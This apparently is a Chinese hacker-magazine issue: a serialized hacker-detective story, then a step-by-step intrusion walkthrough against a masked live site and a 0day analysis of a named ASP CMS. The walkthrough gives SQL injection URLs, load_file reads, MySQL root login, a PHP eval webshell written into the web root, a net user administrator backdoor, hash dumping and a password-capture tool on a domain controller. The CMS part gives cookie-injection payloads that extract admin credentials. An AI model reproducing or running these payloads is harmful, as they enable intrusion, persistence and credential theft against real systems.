打开 CAT.com 的时候，苏景发现留言板被一条相同内容的留言填满了：“CAT，能和你单独聊吗？有件案子只能私下告诉你——日九客人 QQ：8776089XX。”

苏景笑了笑，立马加了这位“客人”的 QQ。同时也是意料之中，跳出的对话框要求回答问题：“我的名字是？”

输入：“何旭”。

“你终于来了。”

这一夜，月亮柔和的白光把原本漆黑的夜幕变成了深邃而富有层次的墨蓝色。秦豫山用它流畅的黑色线条轻轻托起整个启山市，就像母亲用双手抱起摇篮里的婴儿。原本被各种霓虹灯照得恍如白昼的城市也渐渐睡下去，最后只留几点彩光在沉默中跳动。

苏景挤了挤眉头，伸着懒腰靠到椅背的时候，余光无意扫到了屏幕角落那个小小的“3:00”。

“咣当”一声，她从椅子上掉了下去。

她向上帝祈祷这一切都是梦境，但上帝也睡着了，没有搭理她。

三点钟？！明天可以翘课吗……

出门前，苏景在苏英泽吃人的表情下猛灌了 3 大杯 Sumatra Mandheling，但现在她怀疑这些东西是不是假货。

“我撑不住了……”在“牺牲”前，苏景最后的愿望是今天班主任出车祸来不了了，然后一闪而过的最后意识是：“啊，这样的想法会不会太恶毒了……”

上课铃响起的时候，班主任维持着她一贯的作风，准时而大步地跨进教室。于是在人们期待的目光中，早就在今早传得沸沸扬扬并被热烈讨论的传说中的转学生粉墨登场。

被奉为传说的转学生是个侦探。

很有名啊。

听说已经破过许多案件了。

还说长得很好看呢。

原来世上还有这样的人啊。

我还以为这种人都去演小说去了呢。

在整个过程中，最镇定自若、稳如泰山的是苏景，甚至洋老师说转学生的座位就在她身边时，她也依然没有任何惊叹声。虽然其他人此起彼伏的吸气声已经隐约淹死她三回了，但就在刘珊转过头想用“幸运儿，真淡定”之类酸溜溜的修辞去“赞美”她时，发现她还在香梦中。于是，刘珊恶狠狠地瞪了一眼苏景后，热情地向何瑞打招呼。

此时她是多么地希望出国留学的是自己的同桌而不是苏景。但是不久后，苏景身上的瞌睡虫便扑腾着小翅膀飞进了何瑞的鼻子，于是教室里出现了一幅异常温馨的画面。上面，班主任的课上传情彷徨；下面，两只猪的春眠事件进行得热火朝天。

# 墨小说

……的鼾声，以及各教室老师抑扬顿挫的讲课声，一直延伸到走廊的尽头。

何瑞倚在墙上，双手插着口袋懒洋洋地看向走廊的尽头。

“你也睡着了？”苏景揉着眼睛，挤出一颗大大而晶莹的眼泪。

“嗯，好巧，一起睡觉，一起被罚站。”何瑞抬起头随意地看向天花板，嘴角流出一丝淡淡的笑。

“哎。”

“咱俩真有缘，站完了请你吃冰淇淋。”

“嗯。”

“对了，我叫……”

“何瑞。”苏景抬了抬眼睛，卯足全身的劲挣扎着抬起一只眼皮看向他。

“诶？刚刚你不是睡着了吗？”何瑞略显惊奇地直起腰，转身看向她。

苏景打了个哈欠，伸手揉着酸痛的肩膀，稍微有了点复活的感觉。“你是本市新任警察局长的公子，也是个侦探。不用装了，说明，怎么找到我的。”

“不要这么说嘛，搞得我很阴险似的，咱们还是晚上网上说吧。”何瑞调皮地笑了起来，像个找到玩具的孩子。

“也好，CAT 本来就只存在于‘网上’。”

终于回归温暖的教室，苏景发现刘珊正托着下巴愁眉不展。出于人文主义的关怀，苏景慷慨地伸出援手。但是，古人永远是有先见之明的，他们很早以前就告诫我们，“好心没好报”、“好心当成驴肝肺”，也给我们讲过某鄂先生的悲惨遭遇。

刘珊很鄙视地看了苏景一眼说：“以你的智商是解决不了的。”一旁的何瑞“噗”的一声笑了出来，差点没岔气。苏景顿时像被踩了尾巴的猫，“蹿”地一下跳上了桌子，挽起袖子指着刘珊的鼻子，心里的台词是：丫的，老娘平时装病猫，你们还真拿我当 Hello Kitty 啊！

“说！有什么问题姐姐来帮你解决！”

刘珊不屑地扫了一眼苏景，毅然地转向何瑞：“何瑞，听说你是有名的侦探，那你一定知道，那个日九客人的名字吧？昨天那个该死的家伙居然删了 CAT 大人的留言板，让 CAT 大人去找她，真是太过分了！！！”

在何瑞石化的一瞬间，苏景仰天长笑以至于闪了腰：“果然是个狐狸精！让姐姐来告诉你吧！”说完她阴险地转向何瑞，两眼放着邪光，满脸是“你死定了”以及“活该你个狐狸精”的表情，然后又以变脸演员的神速笑眯眯地转向刘珊举出纸和笔：“其实呢，‘日九客人’可以写成‘白九九人’，倒过来就是‘人可九白’，不就是‘何旭’两个字吗？”

刘珊“哇”地一声捧起了纸，无比崇拜地看向苏景。满足之后，苏景接着说：“其实呢，这个叫何旭的狐狸精……”重音落在“狐狸精”三个字上，苏景颇为得意地看着何瑞。而刘珊显然十分赞同狐狸精的说法，很认真而用力地点起头。

“设置的这个关口很简单，想想看，他的留言里没什么特别的，只是想让 CAT 来找他，QQ 号也作不了什么文章，那只能在网名上动手咯。”

“你终于来了。”

“第二关是什么。”

“你怎么知道我还有测试？”

“这不是废话么？你在论坛上留了自己的 QQ，成千上万的人都看见了，肯定有一大堆暗恋痴迷的。就算是那个小侦探，识破的人也不少吧，那怎么样把案件告诉真正的 CAT 呢。”

“哟，打字真快。”接着是一张笑脸的图片。

“别扯了，快说吧。”

“怎么，你很急？好吧，我相信你是真正的 CAT 了。”

“哎？真是个精明的侦探啊。”

“哈哈，被看穿了啊，你还知道了什么呢？”

“放弃吧，你找不到我的。”

“你还真有意思啊。”

“说下案件的情况吧。”

“听说过开膛手杰克吗？”

“嗯。”

“最近在城北郊区，接连发现三具女尸，身旁留有血字‘复活的杰克’。”

“嗯。”

“你知道这件事？”

“当然。”

“真行啊。”

“你不用这么大费周章的，明确地告诉你吧，警察局的数据库我的确可以自由出入，那件案子是保密案件，我也知道。”

“呵呵，我只是想确认一下。”

“那你已经成功了。”

“你怎么说？”

“现在，我还不能确定什么。”

苏景经常做这样一个梦：在一条无边无际的走廊里，自己漫无目的地走着，像是要寻找某样东西。然后会出现一张温柔的脸，带领自己朝亮光的方向走去。然而就在苏景以为找到的时候，那温柔的脸突然扯下面皮，张开血盆大口扑向自己。每当这时，她惊叫着坐起来的时候总能看见苏英泽慌忙地跑过来问她怎么了。

睡够了之后，苏景翘了课跑到图书馆，她觉得哪一天被苏英泽发现自己总是这么翘课的话，一定会死得很惨。苏英泽其实是个很严厉的哥哥，他可以容忍苏景装作不学无术、成绩不好，但他绝不会允许苏景真的堕落。

每次看到苏景偷偷翘课的时候，苏英泽总会板着脸教育她，即使是逃避也要充分利用每一天的时间来好好学习、天天向上。而每当这时，苏景一定会吐着舌头说：“我还真不知道您竟然这么崇拜咱毛爷爷。”

不过自从有了刘珊，苏景就不用担心翘课会被发现了。刘珊总能在第一时间编出“她拉肚子”、“在校医室”、“她晕倒了”等等理由，以至于苏景病弱的形象深深地刻在每个任课老师的心中。于是苏景常常拉着刘珊的手深情地唱道：“自从有了你，翘课变得好简单……”

打开电脑的时候，苏景感觉到了背后那个晃动的人影。不久后，人影把脑袋凑了过来，然后被苏景一掌拍开：“喂，偷看别人的打字是很不道德的。”苏景板着脸直视前方，完全不理会身后某人的惨叫。

“逃课也是很不道德的，而且你还打人！”

“我还以为你也会随身带笔记本呢。”苏景看了眼两手空空的何瑞，失望地叹了口气。何瑞从地上爬起来，拍拍身上的灰，用恶心的口气靠近苏景：“不是说了嘛，晚上聊，我是好孩子，才不带电脑来学校呢。”

“好孩子就不会翘课了，麻烦你不要用这种恶心的口气和我说话。”苏景很鄙视地回头瞪了他一眼，却撞上了他认真的眼神：“我觉得你需要帮助。”

初春的风忽然有了夏日的威势，“呼”地卷起一阵香樟叶。它们簌簌地在空中打着卷，然后依依不舍地落下。阳光透过茂密的枝叶，斑斑驳驳地投在两人身上，阳光里满是叶子的清香。

苏景缓缓地抬起眼眸看向何瑞：“所以，你来了？”

（未完待续）

> 编辑点评：
>
> 在去年作者曾发过“夜幕猫来临”的第一集和第二集，效果好像还不错。只是停止连载后，读者的情绪也慢慢回落了。这次第二集开始，我们将会大批量连载，各位爱看黑客小说的朋友们千万不可错过，让你们的热情重新燃烧起来吧。苏景小妹妹和她的哥哥苏英泽又将开始什么样的故事？敬请关注——《黑客手册》。



小天栏目：

话说祖国 60 大庆马上就要到了。为了保证庆典成功，最近北京交通管制。在这节骨眼上，大家没事也就别出去乱晃悠，阻碍交通不说，还分散警察叔叔的注意力，何不呆在家里看着代码，找找漏洞，要是找到惊天大 BUG，还算给国庆献礼呢。



图 Msnh4ck（晓华）/岁月联盟信息安全团队

从本文可以学到：

- 1. 脚本渗透的一般步骤
- 2. 渗透过程实例讲解

脚本渗透只是渗透测试中的其中一环，按技术难度来划分，算是最初级的。当然，这类渗透任务交由具有一定攻击经验的 Web 黑客去做即可轻松完成。然而对于一些难度较高的目标，则需要渗透者必须拥有 exploit 的积累。一个安全测试团队当然会有非常专业的文档、流程，以及所需的强大的工具，团队内部也必须有专职的渗透技术研究人员或者组织，并建立渗透攻防实验室，推演最新渗透攻防技术，最终将知识在内部进行共享以及转化。

当然以上都是一些专业的安全渗透团队能够做到的，对于普通的黑客迷来说，是很难进入这类团队的，毕竟不是人人都能参与安全服务行业，多数人都只是业余爱好而已。业余人员学习的最大意义在于，了解最新攻防技术来武装自己不被攻击。

技术学习都是从低到高而进行的，下面以实例的形式来讲解如何进行脚本渗透。本次渗透主要涉及如下知识：

- 主机端口扫描
- Web/MySQL 攻击
- Windows 主机提权
- 域环境的渗透

下面将严格按照以上步骤实施本次渗透任务，同时向新手朋友体现普通渗透攻击的基本步骤，以及一些经典渗透测试工具的应用。本次渗透攻击的目标是 http://www.mse.xxxxxxxxx.cn。

# 主机端口扫描

很多黑客技术迷对于端口扫描很不在乎，原因是从主机直接下手的机会相对比较渺茫。但是这样的想法是不够严谨的，笔者不是在否定它的正确性，因为作为一次安全渗透，主机端口扫描是非常重要的，同时也是必须做的，端口扫描的内容也会详细写入文档，提供给客户。

对于渗透人员来说，这不仅可以全面了解目标服务器的安全状况，更重要的是得到了一些基础情报，这些情报会决定你的整个入侵走向。

对于端口扫描工具的选用，可以应用 NMAP 这类王牌扫描器。NMAP 的功能非常强大，不仅体现在端口扫描上，新版本中还增加了一些功能强悍的插件，这类插件对于渗透攻击是非常有帮助的，具体可以自己查看。

目前 NMAP 的最新版本是 5.0，读者朋友可以自行下载安装。



图 1　扫描结果

下面应用扫描器对目标系统进行扫描测试，我们执行如下命令：

```text
Nmap -v -A www.xxxxxxxx.cn
```

通过扫描器返回的数据得到如下一些重要信息，如图 1 所示。这只是一些基本的端口开放情况，通过扫描我们还可以得到目标服务器运行的详细软件版本，如图 2 所示。



图 2　详细软件版本

从以上扫描的结果来看，这台服务器并不安全，因为有过多的敏感端口暴露在外部，这样是极易受到攻击的。现在需要将扫描结果进行整理，整理范围是敏感端口，笔者整理的结果如下：

| 端口 | 服务 | 版本 |
|---|---|---|
| 21/tcp | ftp | Serv-U ftp 6.4 |
| 53/tcp | domain | Microsoft DNS |
| 80/tcp | http | Apache httpd 2.0.53 |
| 3306/tcp | mysql | MySQL 4.1.9-nt |
| 3389/tcp | microsoft-rdp | Microsoft Terminal Service |
| 8080/tcp | http | Apache Tomcat/Coyote JSP engine 1.0 |
| Running |  | Microsoft Windows 2003 |

对以上各个端口如何进行攻击，相信大家都很精通，毕竟大家都是首先学习系统漏洞入侵的。另外笔者给新手朋友推荐一款非常不错的漏洞扫描器，那就是大名鼎鼎的 Nessus，最新版本为 3.X。笔者使用 Nessus 对以上端口进行漏洞扫描，均没有任何进展，下边就不得不考虑使用脚本渗透技术了。

现在我们首先要弄明白如何进行下面的脚本攻击。通过扫描知道目标服务器应用的是 Apache httpd 2.0.53 以及 Apache Tomcat/Coyote JSP engine 1.0，数据库是 MySQL 4.1.9-nt。这样可以推测目标服务器所使用的程序应该是 PHP 以及 JSP 两种类型，对于这类程序最好的攻击就是注入。另外，MySQL 对渗透也有帮助，在后边你将看到它的用武之地。

# Web/MySQL 攻击

点击“Next”进入下一步的设置，这里可以根据自己的需要进行设置，笔者这里保持默认，如图7所示。

继续选择“Next”，最后点击“Finish”完成设置，如图8所示。

执行“SCAN”进行漏洞扫描，很快就发现了多处注入漏洞，如图9所示。

笔者从中挑选了一个注入点进行注入测试，其页面如下：http://www.xxxxxxxx.cn:80/mse/news/detail.php?ID=172，首先进行字段判断，具体过程就不说了，最后得知具有5个字段，如图10所示。

渗透的话，还需要收集管理员的基本信息，比如联系的QQ、EMAIL、手机等。

下面对服务器域名绑定情况作一个简单判断，如图3所示，该服务器运行着多个网站，这样有利于主站渗透失利后的旁注攻击。

通过浏览器打开主站，使用的是PHP程序，后台数据库已经通过扫描得到了，如图4所示。

现在我们可以对这个主站展开攻势了，首先是测试常规脚本漏洞。如何查找注入漏洞在这里就不废话了，大家都是专家水平了，这里给新手普及一款脚本漏洞扫描器 jsky。这款工具是 ZWELL 写的，效果还是非常不错的。

直接运行 jsky 主程序，点击“FILE”，选择“NEW SCAN”选项，出现如图5所示的对话框。

在上面的“URL”中输入要检测的目标站点地址，如图6所示。

```text
http://www.xxxxxxxx.cn/mse/news/detail.php?ID=-172 union select 1,2,3,4,5
```

通过图11得知，已经获得多个可被显示的字段。现在来看一下数据库的详细信息，主要是判断当前连接的账户。执行如下语句，结果出现如图12的错误信息，应该是字符集设置的问题。

```text
http://www.xxxxxxxx.cn/mse/news/detail.php?ID=-172 union select 1,user(),3,4,5/*
```

Version() 内置函数也无法显示，这对于连接用户权限的判断十分重要，若是 ROOT 用户，则可以直接读取文件了。下面我们来尝试读取 c:\boot.ini 文件，执行如下语句：

```text
http://www.xxxxxxxx.cn/mse/news/detail.php?ID=-172 union select 1,load_file(char(99,58,92,98,111,111,116,46,105,110,105)),3,4,5/*
```

结果发现能够读取，那么可以判断当前连接用户是 ROOT 权限了，如图13所示。

现在来确定接下来的渗透思路：

- 读取 APACHE 配置文件，可得网站绝对路径
- 读取 APACHE_TOMCAT 配置文件，得 JSP 站点绝对路径以及管理员密码
- 读取 JSP 或者 PHP 站点数据库连接文件，得 ROOT 密码
- 读取 SERV-U，得到网站路径，以及加密的账户
- 注入后台数据库，得到管理员密码进后台
- 将一句话木马导出到 JSP 站目录下

由于数据库版本是 MYSQL 4.1.9-nt，使得注入受到了很大的限制，如果字段不是常见的，是很难进行猜解的。下面就开始猜解后台管理表，猜解过程大家都会，成功的几率就看平时的猜解经验以及平常的丰富程度了。

笔者发现 login 表是后台的管理表，猜解语句如下：

```text
http://www.xxxxxxxx.cn/mse/news/detail.php?ID=172 union select 1,2,3,4,5 from login/*
```

现在查看了，还需要字段。通过猜解发现字段是常规的 username 以及 password，猜解语句如下：

```text
http://www.xxxxxxxx.cn/mse/news/detail.php?ID=172 union select 1,concat(username,0x3a,password),3,4,5 from login/*
```

下面爆出后台管理密码，如图14所示，语句如下：

```text
http://www.xxxxxxxx.cn/mse/news/detail.php?ID=-172 union select 1,concat(username,0x3a,password),3,4,5 from login/*
```

密码有了，后台也是常规的页面，很容易查找，如图15所示。利用得到的密码顺利登录，这里就要进入夺取 Webshell 的环节了。后台非常简单，马上找到图片上传的页面上传 PHP 木马，如图16所示。

提交后发现无法进行上传，通过给 PHP 木马头部添加 gif89a 也无济于事。尝试经过多种方式进行突破，还是无法上传。最后上传一个真实的图片文件，居然还是没有上传成功，但通过返回的错误信息得到了网站的绝对路径，如图17所示。

连正常的图片文件都无法上传，那么 PHP 脚本也肯定不能了，后台夺取 Webshell 的路也走到尽头了。现在有了路径，可以尝试读取网站数据库连接文件。为了方便，笔者直接使用工具，成功得到 ROOT 密码，如图18所示。

现在我们登录远程 MYSQL 数据库准备写入一句话木马，执行如下命令进行连接：

```text
mysql -h166.XX.XX.19 -uroot -ppassFORroot
```

下面开始导出一句话木马到 Web 目录下，执行如下 SQL 语句：

```sql
use mysql;
Create TABLE a (cmd text NOT NULL);
Insert INTO a (cmd) VALUES('<?php eval($_POST[cmd]);?>');
select cmd from a into outfile 'E:/webpage/mse/mse/news/xh.php';
Drop TABLE IF EXISTS a;
```

以上语句执行得很顺利，如图20所示。一句话木马导出成功，其完整地址如下：

```text
http://www.xxxxxxxx.cn/mse/news/xh.php
```

使用一句话木马客户端进行连接，如图21所示。通过一句话木马，笔者上传了一个大马以方便操作，下面部分就是提权操作了。

## Windows主机提权

由于当前使用的是 APACHE 服务器，默认是以系统权限启动的，这里我们可以执行任意系统命令。首先查看当前权限，可以使用 whoami 命令，如图22所示。

看来管理员并没有对 APACHE 进行降权，下面直接使用 NET 命令添加账户，如图23所示。

发现并没有添加成功，根据平时的经验来看，估计是服务器做了密码安全策略，验证了密码长度。下面使用一个足够复杂的密码，添加命令如下：

```text
Net user msnh4ck 123456qwert!@# /add
Net localgroup administrators msnh4ck /add
```

执行以上命令后，通过返回的结果来看是成功的，如图24所示。接着，利用添加的用户成功登录远程桌面，如图25所示。

# 域环境的渗透

登录的时候发现当前这台主机是域服务器！关于域环境的入侵，《黑客手册》有多篇文章可供参考，不熟悉的朋友可以回头复习下。笔者通过大马上传了一个 hash 提取工具 gethashes.exe，提取了其他账户的 hash 值，如图26所示。

笔者没有下载 120G 的彩虹表，于是就用前段时间下的 7G 表进行破解。破解效果很不如意，只破解出了 guest 账户的密码，如图27所示。

通过获得的账户密码登录进去，在其目录下还发现了一些黑客工具，看来已经有人捷足先登了。由于当前主机就是域服务器，笔者就给服务器安装了一个终端密码截获工具 winlogohack。

这里主要有两个考虑，一是记录域管理员的密码；二是如果前边那个黑客在这个内网中有收获，我们就可以坐收渔翁之利。

几天之后笔者顺利截获到了域管理员的密码，如图28所示，有了域管理员的密码，就可以在这个域中任意操作了。

**总结：** 本文内容详细讲解了一次典型的渗透攻击任务，希望这篇文章能够帮助到新手朋友。对于本文有任何的疑问以及意见，请在《黑客手册》官方论坛找我交换意见，谢谢。

> **编辑点评：** 很全面的一篇文章，其介绍了脚本渗透的过程和其中会经历的阶段，我们通过其使用的实例可以很全面地了解整个渗透的过程。

# 魅力企业整站系统不魅力

## ——魅力企业整站系统 2009 正式版 0day 分析

从本文可以学到魅力企业整站系统漏洞分析。

今天闲来无事，从网上 down 了一套程序来分析漏洞，名叫“魅力企业整站系统”，用户还挺多，程序功能强大，界面较为美观，用到了 SQL 防注入系统，如图1。

图1 界面

经过检测后发现，其实程序本身的安全有着重大的问题，下面我们就来分析一下。

### 1、注入

我在 shownews.asp?id=1 后面加上一个 '（单引号），马上弹出了防注入提示窗口，接下来我访问主页，结果出现“你的 IP 已被锁定”的提示，如图2。

图2 IP 被锁定

看来有了防注入程序，这个还不能乱加啊。防注入程序是 sqlin 文件夹下的 sqlin.asp，其中有如下代码：

```vb
Dim Fy_Post,Fy_Get,Fy_In,Fy_Inf,Fy_Xh,Fy_db,Fy_dbstx,Kill_IP,WriteSql,
Fy_i,
' 自定义需要过滤的字串,用 "|" 分隔
Fy_In = "'|;|and|(|)|exec|insert|select|delete|update|count|*|%|drop|mid|master|truncate|char|declare"
Kill_IP=True
WriteSql=True
'------------------------------
Dim Fy_ScriptName,Fy_SqlOutUrl,Fy_SqlIn
Fy_ScriptName=Lcase(request.ServerVariables("PATH_INFO"))
Fy_SqlOutUrl=Lcase(SqlInOutUrl&"|"&AdminDir)
Fy_SqlIn=False
for Fy_i = 0 to ubound(split(Fy_SqlOutUrl,"|"))
    if Fy_SqlIn=True then
        if instr(Fy_ScriptName,split(Fy_SqlOutUrl,"|")(Fy_i))<>0 then
            Fy_SqlIn=False
```

```vb
End if
next

Fy_Inf = split(Fy_In,"|")
'----------------POST 部份----------------
If Request.Form<>"" and Fy_SqlIn=True Then
  For Each Fy_Post In Request.Form
    For Fy_Xh=0 To Ubound(Fy_Inf)
      If Instr(LCase(Request.Form(Fy_Post)),Fy_Inf(Fy_Xh))<>0 Then
        If WriteSql=True Then
          killSqlconn.Execute "insert into SqlIn(Sqlin_IP,Sqlin_Web,Sqlin_FS,Sqlin_CS,Sqlin_SJ) values ('"&Request.ServerVariables("REMOTE_ADDR")&"','"&Request.ServerVariables("URL")&"','POST','"&Fy_Post&"','"&replace(Request.Form(Fy_Post),"'","''")&"')"
          killSqlconn.close
          Set killSqlconn = Nothing
        End If
        Response.Write "<Script Language=JavaScript>alert('"&SqlInSystem&"提示你！\n\n请不要在参数中包含非法字符尝试注入！');</Script>"
        Response.Write "非法操作！系统做了如下记录，对于恶意攻击者，我们将通过法律手段维护我们的权益！<br>"
        Response.Write "操作 IP："&Request.ServerVariables("REMOTE_ADDR")&"<br>"
        Response.End
      End If
    Next
  Next
End If
```

```vb
'----------------GET 部份----------------
If Request.QueryString<>"" and Fy_SqlIn=True Then
  For Each Fy_Get In Request.QueryString
    For Fy_Xh=0 To Ubound(Fy_Inf)
      If Instr(LCase(Request.QueryString(Fy_Get)),Fy_Inf(Fy_Xh))<>0 Then
        If WriteSql=True Then
          killSqlconn.Execute "insert into SqlIn(Sqlin_IP,Sqlin_Web,Sqlin_FS,Sqlin_CS,Sqlin_SJ) values ('"&Request.ServerVariables("REMOTE_ADDR")&"','"&Request.ServerVariables("URL")&"','GET','"&Fy_Get&"','"&replace(Request.QueryString(Fy_Get),"'","''")&"')"
          '// 我们的 IP 就是从这里进入了数据库，于是被锁定了
          killSqlconn.close
          Set killSqlconn = Nothing
        End If
        Response.Write "<Script Language=JavaScript>alert('"&SqlInSystem&"提示你！\n\n请不要在参数中包含非法字符尝试注入！');</Script>"
        Response.Write "非法操作！系统做了如下记录，对于恶意攻击者，我们将通过法律手段维护我们的权益！<br>"
        Response.Write "操作 IP："&Request.ServerVariables("REMOTE_ADDR")&"<br>"
        Response.End
      End If
    Next
  Next
End If

If Kill_IP=True Then    '// 这里开启了注入锁定 IP
``````asp
Sqlin_IP=Request.ServerVariables("REMOTE_ADDR")
Kill_IPsql="select Sqlin_IP from Sqlin where Sqlin_IP='"&Sqlin_IP&"'"
and kill_ip=true

Set rsKill_IP=killSqlconn.execute(Kill_IPsql)
If Not(rsKill_IP.eof or rsKill_IP.bof) Then
    Response.Write("<Script Language=JavaScript>alert('"&SqlInSystem&"提示你！\n\n你的IP已经被本系统自动锁定！');</Script>")
    Response.End
End If
rsKill_IP.close

End If
%>
```

看来用的是规则 IP 防注入程序，只过滤了 get 和 post，而对 cookies 没做任何处理，这里我们可以用 cookies 注入。整站有很多地方有 cookies 注入，我就拿 aboutus.asp 来举例，相关代码如下：

```asp
<%
title=Trim(request("Title"))
Start=Title
Set rs = Server.CreateObject("ADODB.Recordset")
sql="select Content from Aboutus where Title='"&Title&"'" ' title没经过滤进入数据库
rs.open sql,conn,1,3
%>
```

我们在浏览器中输入 `javascript:alert(document.cookie="title=" + escape("公司简介' and 1=2 union select 1 from admin where '1'='1"))`，然后打开 about.asp，出现如图 3 的页面。

在浏览器中输入 `javascript:alert(document.cookie="title=" + escape("公司简介' and 1=2 union select username from admin where '1'='1"))`，结果如图 4。

接着输入 `javascript:alert(document.cookie="title=" + escape("公司简介' and 1=2 union select password from admin where '1'='1"))`，结果如图 5。

